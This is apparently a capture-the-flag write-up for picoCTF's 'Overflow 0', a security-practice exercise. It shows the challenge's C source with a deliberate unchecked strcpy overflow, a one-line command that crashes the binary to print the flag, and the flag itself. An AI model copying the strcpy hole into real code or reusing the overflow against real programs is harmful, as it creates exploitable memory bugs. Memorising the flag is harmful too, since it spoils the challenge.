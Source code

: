 
# Binary Exploitation - Overflow 0 (100 points)

## Challenge

*This should be easy. Overflow the correct buffer in this program and get a flag. Its also found in /problems/overflow-0_2_20c7eb49602df3c04c1f43bf9aff1faa on the shell server. Source.*

![Challenge](./_images/binary_exploitation_overflow_0_challenge.png)

```C
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <signal.h>

#define FLAGSIZE_MAX 64

char flag[FLAGSIZE_MAX];

void sigsegv_handler(int sig) {
  fprintf(stderr, "%s\n", flag);
  fflush(stderr);
  exit(1);
}

void vuln(char *input){
  char buf[128];
  strcpy(buf, input);
}

int main(int argc, char **argv){
  
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("Flag File is Missing. Problem is Misconfigured, please contact an Admin if you are running this on the shell server.\n");
    exit(0);
  }
  fgets(flag,FLAGSIZE_MAX,f);
  signal(SIGSEGV, sigsegv_handler);
  
  gid_t gid = getegid();
  setresgid(gid, gid, gid);
  
  if (argc > 1) {
    vuln(argv[1]);
    printf("You entered: %s", argv[1]);
  }
  else
    printf("Please enter an argument next time\n");
  return 0;
}
```

## Flag

picoCTF{3asY_P3a5yd2b59a57}

## Walkthrough

The function void `vuln(char *input)` is vulnerable to a buffer overflow because *input* size is not controlled when strcopied in buf (which has a size of 128 bytes).

```C
void vuln(char *input){
  char buf[128];
  strcpy(buf, input);
}
```

If a segmentation fault occurs, corresponding signal will be catch resulting in the display of the flag:

```C
void sigsegv_handler(int sig) {
  fprintf(stderr, "%s\n", flag);
  fflush(stderr);
  exit(1);
}
```

So all we have to do is to perform a big and dirty buffer overflow resulting in a seg fault to display the flag:

```bash
m3oow@pico-2019-shell1:/problems/overflow-0_2_20c7eb49602df3c04c1f43bf9aff1faa$ python -c "print('A' * 140)" | xargs ./vuln
picoCTF{3asY_P3a5yd2b59a57}
```